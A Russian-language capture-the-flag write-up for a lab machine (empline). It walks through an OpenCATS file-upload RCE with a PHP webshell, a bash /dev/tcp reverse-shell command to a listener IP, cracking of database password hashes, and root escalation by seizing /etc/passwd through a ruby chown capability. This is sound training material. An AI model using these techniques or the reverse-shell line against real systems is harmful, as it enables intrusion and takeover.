*	Difficult: `Hard`
# WriteUp

1. Провел первичный анализ:
   - open-ports:
   22 shh  
   80 http - Apache 2.4.29 | JS  библиотека - Jquorry
   3306 mySql - MariaDB 5.5.5-10.1.48 

   - Информация со странички:
   SysAdmin - George Tasa
   WebAnalyst - James Gynja

2. Просканировал директории но ничего интересного кроме uploads там небыло. Затем просканировал поддомены - нашел `job.empline.thm`

3. Перейдя по адресу, меня встретила форма авторизации в opencats (CRM для рекрутинга)

4. В исходном коде самой первой странички я так же нашел адрес `job.empline.thm/careers`

5. Перейдя туда, увидел простой интерфейс с вакансиями, зашел на единственную что там была.

6. Увидел форму для заполнения данных кандидата где можно было прикрепить резюме.

7. Потыкав различные запросы в BurpSuite, я нашел в ответе версию opencats

8. Для этой версии существует эксплоит RCE через загрузку файлов. Суть в том, что сервер не проверяет расширение файла которое загружается в эту форму.

9. Прочитав сам эксплоит, понял как он работает и куда загружаются файлы через эту форму. Они загружаются по пути: `/careers/attachments/shell.php`. Перехватывая запросы, я заметил что в параметре выделенном на скриншоте, нужно явно указать значение `"resumeLoad"`

10. Записал в файл свой PHP webshell и в начале файла добавил сигнатуру изображения, так как в эксплоите это делается тоже, для того чтобы обойти валидацию если она есть. Без этого файл не загружался. Затем я перехватил запрос на загрузку снова и изменил нужный параметр.

11. После отправки этого запроса, перешел в директорию для загруженных файлов и увидел, что файл успешно загрузился на сервер.

12. Проверял работу веб шелла так же черезе BurpSuite. Ввел команду id и сервер в ответе вернул вывод команды. Всё работает.

13. Пытался получить реверс шелл различными командами, например : `0=bash -c 'bash -i >& /dev/tcp/192.168.192.77/4444 0>&1'`, но ни одна не работала. И я решил сделать это так же, через php. 

14. Запустив слушатель и отправи запрос я получил ReversShell

15. Стабилизировал оболочку для удобства работы 

16. Нашел ещё двух пользователей `george` и `ubuntu` но в их папки зайти не удалось, так как прав недостаточно.

17. Заметил, что у меня есть доступ к кнофигу opencats и я решил поискать что то там.

18. В этом файле я нашел имя пользователя и пароль для доступа к базе данных



19. Уже со своей машины, подключился к базе данных с помощью этих учетных данных



20. В базе opencats нашел таблицу `user` 



21. В таблице `user`, есть колонки `user_name` и `password`



22. Вывел содержимое этих колонок, в них содержались имена пользователей и хэши паролей.



23. Перебрал несколько словарей, и удалось получить доступ только к паролю пользователя james.



24. Подключился по ссш с этими учётными данными и получил первый флаг.



25. Провел базовую проверку конфигурации, проверял какие права у меня есть под этим пользователем, какие программы запускаются от рута, какие процессы запущены. Ничего особо не найдя решил использовать linpeas. Запустил http сервер и загрузил скрипт на машину.





26. В выводе скрипты было много интересных моментов, но он выделил бинарник ruby который может менять создателя файлов.



27. Я изменил создателя у файла passwd, чтобы иметь возможность его изменять.



28. Это сработало и я стал создателем файла passwd



29. Я сгенерировал хэш пароля у себя на машине и добавил нового root пользователя в этот файл. Затем залогинился под новым пользователем.



30. Прочитал финальный флаг

